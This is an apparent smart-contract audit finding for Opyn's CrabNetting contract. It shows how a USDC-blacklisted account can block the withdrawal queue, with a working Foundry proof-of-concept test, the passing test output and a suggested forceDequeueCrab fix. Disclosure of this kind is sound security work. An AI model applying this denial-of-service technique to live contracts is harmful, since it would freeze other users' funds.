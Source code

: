 KingNFT

medium

# Attack with any USDC blacklisted account

## Summary
Any blacklisted account by USDC can block the 'withdraws' queue, and make the contract unavailable.

## Vulnerability Detail
There are  currently 200+ blacklisted accounts by USDC, these accounts are related to known hacks and other crime events.
https://etherscan.io/address/0x5db0115f3b72d19cea34dd697cf412ff86dc7e1b

Any account in the above blacklist can call
```solidity
function queueCrabForWithdrawal(uint256 _amount) external;
```
to block the 'withdraws' queue.

The vulnerability points
```solidity
function netAtPrice(uint256 _price, uint256 _quantity) external onlyOwner {
    // ...

    // process withdraws and send usdc
    i = withdrawsIndex;
    while (crabQuantity > 0) {
        // ...
        if (withdraw.amount <= crabQuantity) {
            // ...
            IERC20(usdc).transfer(withdraw.sender, amountToSend); // @audit revert due to attacker is blacklisted

            // ...
        } else {
            // ...
            IERC20(usdc).transfer(withdraw.sender, amountToSend); // @audit revert due to attacker is blacklisted

            // ...
        }
    }
    // ...
}
```

```solidity
function withdrawAuction(WithdrawAuctionParams calldata _p) public onlyOwner {
    // ...

    // step 5 pay all withdrawers and mark their withdraws as done
    while (remainingWithdraws > 0) {
        // ...
        if (withdraw.amount <= remainingWithdraws) {
            //...
            IERC20(usdc).transfer(withdraw.sender, usdcAmount); // @audit revert due to attacker is blacklisted
            // ...
        } else {
            // ...
            IERC20(usdc).transfer(withdraw.sender, usdcAmount); // @audit revert due to attacker is blacklisted
            // ...
        }
    }
    // ...
}
```

Test case
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "forge-std/Test.sol";
import {BaseForkSetup} from "./BaseForkSetup.t.sol";

interface IUSDC {
    function blacklist(address _account) external;
}

contract AttackWithUSDCBlacklistedAccount is BaseForkSetup {
    address internal constant USDCBlacklister = 0x5dB0115f3B72d19cEa34dD697cf412Ff86dc7E1b;
    address internal attacker;
    uint256 internal attackerPk;

    function setUp() public override {
        BaseForkSetup.setUp();
        attackerPk = 0xB11CE;
        attacker = vm.addr(attackerPk);
        vm.label(attacker, "attacker");
        vm.deal(attacker, 1e18);

        vm.prank(0x06CECFbac34101aE41C88EbC2450f8602b3d164b);
        crab.transfer(withdrawer, 1e18);

        vm.prank(0x57757E3D981446D585Af0D9Ae4d7DF6D64647806);
        usdc.transfer(depositor, 20e6);

        vm.prank(0x06CECFbac34101aE41C88EbC2450f8602b3d164b);
        crab.transfer(attacker, 1e18);

        vm.prank(USDCBlacklister);
        IUSDC(address(usdc)).blacklist(attacker);
    }

    function testAttackWithUSDCBlacklistedAccount() public {
        netting.setMinCrab(1e16);
        vm.startPrank(attacker);
        crab.approve(address(netting), type(uint256).max);
        netting.queueCrabForWithdrawal(1e16);
        vm.stopPrank();


        vm.startPrank(depositor);
        usdc.approve(address(netting), 17e6);
        netting.depositUSDC(17e6);
        vm.stopPrank();

        vm.startPrank(withdrawer);
        crab.approve(address(netting), 1e18);
        netting.queueCrabForWithdrawal(1e18);
        vm.stopPrank();

        uint256 priceToNet = 1336290000;
        uint256 quantityToNet = 16840842;
        
        vm.expectRevert(); // @audit blocked by attacker
        netting.netAtPrice(priceToNet, quantityToNet);

        vm.prank(attacker);
        netting.dequeueCrab(1e16);
        netting.netAtPrice(priceToNet, quantityToNet); // @audit success while attack cancelled
    }
}

```

Test result
```solidity
PS C:\Sherlock\2022-11-opyn-ydspa-main\crab-netting> forge test --match-test testAttackWithUSDCBlacklistedAccount -vv
[⠔] Compiling...
[⠢] Compiling 1 files with 0.8.17
[⠰] Solc 0.8.17 finished in 2.84s
Compiler run successful

Running 1 test for test/AttackWithUSDCBlacklistedAccount.t.sol:AttackWithUSDCBlacklistedAccount
[PASS] testAttackWithUSDCBlacklistedAccount() (gas: 850344)
Test result: ok. 1 passed; 0 failed; finished in 2.08s
```

## Impact
The following functions will always revert
```solidity
function netAtPrice(uint256 _price, uint256 _quantity) external;
function withdrawAuction(WithdrawAuctionParams calldata _p) public;
```

## Code Snippet
https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L401
https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L411
https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L704
https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L714
## Tool used

Manual Review

## Recommendation
Add a 'forceDequeueCrab()' function to rescue the contract in case of attack.
```solidity
function forceDequeueCrab(address _account, uint256 _amount) external onlyOwner {
    require(!isAuctionLive, "auction is live");
    crabBalance[_account] = crabBalance[_account] - _amount;
    require(
        crabBalance[_account] >= minCrabAmount || crabBalance[_account] == 0,
        "remaining amount smaller than minimum, consider removing full balance"
    );
    // deQueue crab from the last, last in first out
    uint256 toRemove = _amount;
    uint256 lastIndexP1 = userWithdrawsIndex[_account].length;
    for (uint256 i = lastIndexP1; i > 0; i--) {
        Receipt storage r = withdraws[userWithdrawsIndex[_account][i - 1]];
        if (r.amount > toRemove) {
            r.amount -= toRemove;
            toRemove = 0;
            break;
        } else {
            toRemove -= r.amount;
            delete withdraws[userWithdrawsIndex[_account][i - 1]];
            userWithdrawsIndex[_account].pop();
        }
    }
    IERC20(crab).transfer(_account, _amount);
    emit CrabDeQueued(_account, _amount, crabBalance[_account]);
}
```
